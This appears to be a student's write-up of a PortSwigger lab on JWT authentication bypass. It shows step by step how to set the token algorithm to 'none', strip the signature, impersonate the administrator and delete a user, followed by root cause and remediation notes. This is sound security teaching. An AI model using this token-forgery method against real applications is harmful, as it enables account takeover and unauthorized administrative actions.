




# Lab: JWT Authentication Bypass via Flawed Signature Verification

## Lab Information

**Category:** JWT Attacks  
**Difficulty:** Apprentice  
**Lab URL:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

---

## Objective

Exploit a JWT implementation flaw where the application accepts unsigned JWTs (`alg: none`). Modify the JWT to impersonate the administrator account, access the admin panel, and delete the user `carlos`.

---

## Vulnerability Overview

The application uses JWTs for authentication but incorrectly accepts tokens with the algorithm set to:

```json
{
  "alg": "none"
}
```

This allows attackers to:

- Remove the JWT signature completely.
- Modify sensitive claims.
- Forge administrator privileges.
- Bypass authentication controls.

---

## Steps Performed

### 1. Login as Wiener

Login using:

```text
Username: wiener
Password: peter
```

Navigate to:

```text
My Account
```

Capture the authenticated request containing the JWT session cookie.

---

### 2. Attempt Admin Access

Send the authenticated request to Burp Repeater.

Modify the request path:

```http
GET /admin HTTP/2
```

Send the request.

The server responds:

```http
401 Unauthorized
```

indicating that the current user lacks administrator privileges.

### Screenshot



---

### 3. Modify JWT Payload

Open the JWT Editor tab in Burp Suite.

Original payload:

```json
{
  "sub": "wiener"
}
```

Change the payload to:

```json
{
  "sub": "administrator"
}
```

Apply the changes.

---

### 4. Modify JWT Header

Original header:

```json
{
  "alg": "RS256"
}
```

Change it to:

```json
{
  "alg": "none"
}
```

Apply the changes.

---

### 5. Remove JWT Signature

The token initially follows the structure:

```text
HEADER.PAYLOAD.SIGNATURE
```

Remove the signature portion while keeping the trailing period:

```text
HEADER.PAYLOAD.
```

This creates an unsigned JWT accepted by the vulnerable application.

---

### 6. Access the Admin Panel

Send the modified request again.

The application grants administrative access because the server accepts unsigned JWTs.

### Screenshot



---

### 7. Delete Carlos

Locate the administrative delete endpoint:

```http
/admin/delete?username=carlos
```

Send the request using the forged administrator JWT.

The user is successfully deleted.

### Screenshot



---

### 8. Verify Lab Completion

After deleting Carlos, the lab is marked as solved.

### Screenshot



---

## Root Cause

The server accepts JWTs with:

```json
{
  "alg": "none"
}
```

and does not require a valid cryptographic signature.

As a result, attackers can freely modify claims such as:

```json
{
  "sub": "administrator"
}
```

and gain unauthorized access.

---

## Impact

An attacker can:

- Impersonate any user.
- Escalate privileges to administrator.
- Access restricted functionality.
- Bypass authentication mechanisms.
- Perform unauthorized administrative actions.

---

## Remediation

1. Never allow the `none` algorithm in production.
2. Enforce strict JWT signature verification.
3. Use an allowlist of approved algorithms.
4. Reject unsigned JWTs.
5. Perform server-side authorization checks independent of JWT claims.

---

## Key Learning

JWT security depends on proper signature verification. Accepting unsigned tokens (`alg: none`) allows attackers to forge arbitrary identities and completely bypass authentication.